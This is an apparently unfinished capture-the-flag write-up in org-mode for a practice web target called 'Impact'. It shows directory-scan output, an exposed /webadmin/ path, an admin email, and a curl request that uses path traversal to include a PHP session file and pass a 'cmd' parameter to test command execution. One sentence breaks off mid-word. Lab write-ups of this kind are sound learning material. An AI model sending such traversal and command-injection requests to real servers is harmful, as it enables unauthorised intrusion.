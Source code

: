 #+title: Impact
#+author: gabriel

* intro
A hacker group organises cyber attacks against companies and offers the sensitive data they obtain for sale with cryptocurrency on the website called "Impact". This hacker group is increasing the list of target companies every day. Your task is to register as an ordinary customer on this website and collect information about the hacker group and its manager. Good luck in your mission!

* info gathering
#+begin_src sh
🚨 Caught ctrl+c 🚨 saving scan state to ferox-http_impact_hv-1760458064.state ...
[#>------------------] - 2m     19591/270037  75m     found:21      errors:4932
[##>-----------------] - 2m      3978/30000   28/s    http://impact.hv/
[##>-----------------] - 2m      3689/30000   27/s    http://impact.hv/js/
[#>------------------] - 2m      1784/30000   13/s    http://impact.hv/uploads/
[##>-----------------] - 2m      3770/30000   28/s    http://impact.hv/css/
[#>------------------] - 2m      2323/30000   18/s    http://impact.hv/fonts/
[>-------------------] - 2m      1461/30000   11/s    http://impact.hv/webadmin/
#+end_src

Is possible to bypass the login page with the /webadmin/ page, when we access /webadmin/ we are redirect to the /webadmin/login

If we ca

*admin email* ->
: zerotrace@secretmail.hv


*User agent injection ->*
: [11:10][]~ ✮ curl -v "http://impact.hv/search.php?name=../../../../../../../var/lib/php/sessions/sess_95j17bn4agoa0kql3k7mtl1o0f&cmd=sleep%2010"
